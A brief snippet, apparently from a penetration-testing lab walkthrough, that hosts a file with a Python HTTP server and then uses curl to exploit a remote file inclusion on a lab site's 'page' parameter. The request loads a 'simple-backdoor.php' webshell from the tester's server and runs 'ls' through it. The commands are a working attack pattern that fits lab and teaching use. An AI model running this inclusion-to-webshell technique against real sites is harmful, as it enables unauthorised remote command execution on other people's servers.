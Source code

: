 Python3 hhtp server for the file:
```
python3 -m http.server 80
```

Get the webshell by our http server:
```
curl "http://mountaindesserts.com/meteor/index.php?page=http://0.0.0.0/simple-backdoor.php&cmd=ls"
```